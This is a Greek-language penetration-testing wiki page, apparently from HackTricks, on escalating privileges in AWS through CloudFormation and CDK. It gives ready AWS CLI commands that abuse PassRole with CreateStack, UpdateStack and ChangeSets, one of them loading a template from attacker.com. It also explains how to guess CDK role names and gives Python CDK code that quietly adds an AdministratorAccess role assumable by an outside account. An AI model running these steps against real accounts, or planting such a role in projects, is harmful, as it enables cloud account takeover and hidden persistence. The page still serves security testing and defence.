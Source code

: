 # AWS - Cloudformation Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## cloudformation

Για περισσότερες πληροφορίες σχετικά με το cloudformation, ελέγξτε:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### `iam:PassRole`, `cloudformation:CreateStack`

Ένας επιτιθέμενος με αυτές τις άδειες **μπορεί να κλιμακώσει τα προνόμια** δημιουργώντας ένα **CloudFormation stack** με ένα προσαρμοσμένο πρότυπο, φιλοξενούμενο στον διακομιστή τους, για να **εκτελέσει ενέργειες υπό τις άδειες ενός καθορισμένου ρόλου:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Στην παρακάτω σελίδα έχετε ένα **παράδειγμα εκμετάλλευσης** με την επιπλέον άδεια **`cloudformation:DescribeStacks`**:

{{#ref}}
iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md
{{#endref}}

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας cloudformation που καθορίζεται.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Σε αυτή την περίπτωση μπορείτε να **καταχραστείτε μια υπάρχουσα στοίβα cloudformation** για να την ενημερώσετε και να κλιμακώσετε τα προνόμια όπως στο προηγούμενο σενάριο:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Η άδεια `cloudformation:SetStackPolicy` μπορεί να χρησιμοποιηθεί για να **δώσετε στον εαυτό σας άδεια `UpdateStack`** πάνω σε ένα stack και να εκτελέσετε την επίθεση.

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας cloudformation που έχει καθοριστεί.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Εάν έχετε αυτή την άδεια αλλά **όχι `iam:PassRole`**, μπορείτε ακόμα να **ενημερώσετε τα stacks** που χρησιμοποιούνται και να εκμεταλλευτείτε τους **IAM Ρόλους που έχουν ήδη συνημμένα**. Ελέγξτε την προηγούμενη ενότητα για παράδειγμα εκμετάλλευσης (απλά μην υποδείξετε κανέναν ρόλο στην ενημέρωση).

Η άδεια `cloudformation:SetStackPolicy` μπορεί να χρησιμοποιηθεί για να **δώσετε στον εαυτό σας άδεια `UpdateStack`** πάνω σε ένα stack και να εκτελέσετε την επίθεση.

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας cloudformation που είναι ήδη συνημμένος.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Ένας επιτιθέμενος με άδειες να **περάσει έναν ρόλο και να δημιουργήσει & εκτελέσει ένα ChangeSet** μπορεί να **δημιουργήσει/ενημερώσει ένα νέο cloudformation stack και να εκμεταλλευτεί τους ρόλους υπηρεσίας cloudformation** όπως με το CreateStack ή UpdateStack.

Η παρακάτω εκμετάλλευση είναι μια **παραλλαγή της**[ **CreateStack**](#iam-passrole-cloudformation-createstack) χρησιμοποιώντας τις **άδειες ChangeSet** για να δημιουργήσει ένα stack.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Η άδεια `cloudformation:SetStackPolicy` μπορεί να χρησιμοποιηθεί για να **δώσετε στον εαυτό σας άδειες `ChangeSet`** πάνω σε ένα stack και να εκτελέσετε την επίθεση.

**Πιθανές Επιπτώσεις:** Privesc σε ρόλους υπηρεσίας cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Αυτό είναι όπως η προηγούμενη μέθοδος χωρίς να περάσετε **IAM ρόλους**, οπότε μπορείτε απλά να **καταχραστείτε αυτούς που είναι ήδη συνδεδεμένοι**, απλά τροποποιήστε την παράμετρο:
```
--change-set-type UPDATE
```
**Πιθανές Επιπτώσεις:** Privesc στο ρόλο υπηρεσίας cloudformation που έχει ήδη προσαρτηθεί.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτές τις άδειες για να δημιουργήσει/ενημερώσει StackSets για να εκμεταλλευτεί αυθαίρετους ρόλους cloudformation.

**Πιθανές Επιπτώσεις:** Privesc στους ρόλους υπηρεσίας cloudformation.

### `cloudformation:UpdateStackSet`

Ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτή την άδεια χωρίς την άδεια passRole για να ενημερώσει StackSets για να εκμεταλλευτεί τους προσαρτημένους ρόλους cloudformation.

**Πιθανές Επιπτώσεις:** Privesc στους προσαρτημένους ρόλους cloudformation.

## AWS CDK

Το AWS cdk είναι ένα εργαλείο που επιτρέπει στους χρήστες να ορίζουν την υποδομή τους ως κώδικα σε γλώσσες που ήδη γνωρίζουν, καθώς και να επαναχρησιμοποιούν εύκολα τμήματα. Το CDK στη συνέχεια μετατρέπει τον υψηλού επιπέδου κώδικα (π.χ. python) σε πρότυπα Cloudformation (yaml ή json).

Για να χρησιμοποιήσετε το CDK, ένας διαχειριστικός χρήστης πρέπει πρώτα να εκκινήσει τον λογαριασμό, ο οποίος δημιουργεί αρκετούς ρόλους IAM, συμπεριλαμβανομένου του *exec role*, ο οποίος έχει \*/\* άδειες. Αυτοί οι ρόλοι ακολουθούν τη δομή ονοματοδοσίας `cdk-<qualifier>-<name>-<account-id>-<region>`. Η εκκίνηση πρέπει να γίνει μία φορά ανά περιοχή ανά λογαριασμό.

Από προεπιλογή, οι χρήστες CDK δεν έχουν πρόσβαση για να καταγράψουν τους ρόλους που απαιτούνται για τη χρήση του CDK, πράγμα που σημαίνει ότι θα χρειαστεί να τους προσδιορίσετε χειροκίνητα. Εάν παραβιάσετε μια μηχανή προγραμματιστή ή κάποιο κόμβο CI/CD, αυτοί οι ρόλοι μπορούν να υποτεθούν για να σας δώσουν τη δυνατότητα να αναπτύξετε πρότυπα CFN, χρησιμοποιώντας τον ρόλο `cfn-exec` για να επιτρέψετε στο CFN να αναπτύξει οποιουσδήποτε πόρους, πλήρως παραβιάζοντας τον λογαριασμό.

### Προσδιορισμός των ονομάτων ρόλων

Εάν έχετε `cloudformation:DescribeStacks`, οι ρόλοι ορίζονται σε ένα stack που ονομάζεται `CDKToolkit`, και μπορείτε να τραβήξετε τα ονόματα από εκεί.

Εάν βρίσκεστε σε μια μηχανή που έχει χρησιμοποιηθεί για την κατασκευή και ανάπτυξη έργων CDK, μπορείτε να τα τραβήξετε από το `cdk.out/manafest.json` στον ριζικό κατάλογο των έργων.

Μπορείτε επίσης να κάνετε μια καλή εκτίμηση για το ποιοι είναι. Το `qualifier` είναι μια συμβολοσειρά που προστίθεται στους ρόλους επιτρέποντας την ανάπτυξη πολλαπλών περιπτώσεων της εκκίνησης CDK ταυτόχρονα, ωστόσο η προεπιλεγμένη τιμή είναι σκληρά κωδικοποιημένη σε `hnb659fds`.
```
# Defaults
cdk-hnb659fds-cfn-exec-role-<account-id>-<region>
cdk-hnb659fds-deploy-role-<account-id>-<region>
cdk-hnb659fds-file-publishing-role-<account-id>-<region>
cdk-hnb659fds-image-publishing-role-<account-id>-<region>
cdk-hnb659fds-lookup-role-<account-id>-<region>
```
### Προσθήκη κακόβουλου κώδικα στην πηγή του έργου

Αν μπορείτε να γράψετε στην πηγή του έργου, αλλά δεν μπορείτε να το αναπτύξετε μόνοι σας (για παράδειγμα, ο προγραμματιστής αναπτύσσει τον κώδικα μέσω CI/CD, όχι από το τοπικό μηχάνημα), μπορείτε να συμβιβάσετε το περιβάλλον προσθέτοντας κακόβουλους πόρους στο stack. Το παρακάτω προσθέτει έναν ρόλο IAM που μπορεί να αναληφθεί από έναν λογαριασμό επιτιθέμενου σε ένα έργο python CDK.
```python
class CdkTestStack(Stack):
def __init__(self, scope: Construct, construct_id: str, **kwargs) -> None:
super().__init__(scope, construct_id, **kwargs)

# ----------
# Some existing code.....
# ----------

role = iam.Role(
self,
"cdk-backup-role", # Role name, make it something subtle
assumed_by=iam.AccountPrincipal("1234567890"), # Account to allow to assume the role
managed_policies=[
iam.ManagedPolicy.from_aws_managed_policy_name("AdministratorAccess") # Policies to attach, in this case AdministratorAccess
],
)
```
## Αναφορές

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
- [https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml](https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml)

{{#include ../../../../banners/hacktricks-training.md}}
